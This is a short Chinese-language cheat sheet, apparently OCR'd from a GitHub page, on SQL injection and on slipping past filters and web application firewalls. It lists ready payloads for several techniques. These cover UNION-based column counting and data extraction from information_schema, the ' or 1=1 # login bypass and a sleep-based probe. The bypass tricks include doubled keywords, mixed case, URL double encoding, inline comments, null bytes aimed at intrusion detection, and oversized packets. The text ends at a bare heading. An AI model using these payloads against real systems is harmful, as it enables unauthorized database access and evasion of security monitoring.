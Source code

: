select * from table where id=‘1’ union order by 2 #’ //测试命令的查询字段数量

select * from table where id=‘1’ union select 1,(group_concat(concat(字段1，字段2，…))) from information_schema.schemata [//group_concat](//group_contact) 显示所有行，concat合并显示选择字段

## 万能密码

select * from table where name=*nameandpassword*=password

利用：任意输入 ‘ or 1=1 # //可同时绕过用户名及密码

## 双写绕过：

uniunionon select … //部分程序设置了关键词黑名单，通过双写关键字绕过

## 大小写绕过

Union seLect … //通过大小写绕过

## url双编码绕过

还可通过url编码绕过，将某些特殊字符使用url编码传输

如果服务端是有了urldecode函数则可以通过该方法绕过

## 内联注释绕过

部分程序过滤了空格，将输入限制为单个，则可以通过内联注释绕过 还可通过`%a0 ,%09,%0a,%0b,%0c,%0d`绕过

select * from table where id=‘1’/**/union/**/order/**/by/**/2

select * from table where id=’1’and/*!sleep(10)*/—+

## 空字节

用于绕过一些入侵检测系统，如ids ips等，这些检测系统一般都是用原生语言编写的，而这些语言检验字符串的结尾是通过检测空字节，在被检测系统检测的字符前面加上一个空字节就可以欺骗检测系统忽略被检测字符。%00-空字节

## 双请求绕过

有的后台处理同时使用了get与post两种方式，但只对其中一种方式传参进行了处理，就可以绕过

## 异常请求方式绕过

将请求方式更改为任意不存在的，只针对特殊情况可以绕过

## 超大数据包绕过

为了性能，有些waf不会对超大的数据包进行检验，他们会先判断数据包的长度，只有符合长度要求的包才被检验，所以我们可以构造超长的垃圾数据包来绕过检查。

## 复参数绕过
